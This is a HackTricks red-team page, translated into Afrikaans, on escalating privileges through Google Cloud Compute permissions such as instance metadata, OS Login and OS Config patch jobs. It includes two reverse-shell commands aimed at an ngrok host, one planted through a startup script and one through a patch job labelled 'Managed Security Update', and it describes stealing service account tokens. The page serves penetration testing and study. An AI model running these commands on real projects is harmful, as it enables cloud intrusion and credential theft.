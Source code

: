 # GCP - Compute Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die privilege escalation aanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos om nuwe gebruikers en SSH sleutels by te voeg), dit **nodig is dat jy `actAs` toestemmings oor die SA wat aan die instansie geheg is, het**, selfs al is die SA reeds geheg!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy **wysig** die **metadata** inligting van 'n **instansie** en die **geautoriseerde sleutels van 'n gebruiker** verander, of **skep** 'n **nuwe gebruiker met sudo** toestemmings. Daarom sal jy in staat wees om via SSH in enige VM instansie in te log en die GCP Service Account waarmee die Instansie loop, te steel.\
Beperkings:

* Let daarop dat GCP Service Accounts wat in VM instansies loop, standaard 'n **baie beperkte omvang** het.
* Jy sal **in staat moet wees om die SSH** bediener te kontak om in te log.

Vir meer inligting oor hoe om hierdie toestemming te benut, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur nuwe opstart-skrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee die **dieselfde bevoegdhede as die vorige toestemming** maar oor 'n spesifieke instansie in plaas van 'n hele projek. Die **dieselfde ontploffings en beperkings soos vir die vorige afdeling geld**.

### `compute.instances.setIamPolicy`

Hierdie tipe toestemming sal jou toelaat om **jouself 'n rol met die vorige toestemmings toe te ken** en bevoegdhede te verhoog deur dit te misbruik.

### **`compute.instances.osLogin`**

As **OSLogin geaktiveer is in die instansie**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy **sal nie root bevoegdhede** binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol in te log met hierdie toestemming binne die VM instansie, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As **OSLogin geaktiveer is in die instansie**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy sal **root bevoegdhede** binne die instansie hê.

{% hint style="success" %}
Om suksesvol in te log met hierdie toestemming binne die VM instansie, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om **'n virtuele masjien met 'n toegewyde Diensrekening te skep en die token** van die diensrekening te steel deur toegang tot die metadata om bevoegdhede na dit te verhoog.

Die ontploffingskrypt vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch werk of ontplooiing**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

Let daarop dat jy op die oomblik **nie `actAs` toestemming** oor die SA wat aan die instansie gekoppel is, nodig het nie.

As jy dit handmatig wil ontplof, sal jy of 'n [**patch werk**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **of** [**ontplooiing**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** moet skep.**\
Vir 'n patch werk, voer uit:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Om 'n patch-implementering te ontplooi:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Die hulpmiddel [patchy](https://github.com/rek7/patchy) kon in die verlede gebruik word om hierdie miskonfigurasie te benut (maar dit werk nou nie).

**'n Aanvaller kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra regte** op die rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra regte** op 'n skyf-snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra regte** op 'n skyf.

### Bypass Access Scopes

Volg hierdie skakel om 'n paar [**idees te vind om toegangskope te omseil**](../).

### Plaaslike Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
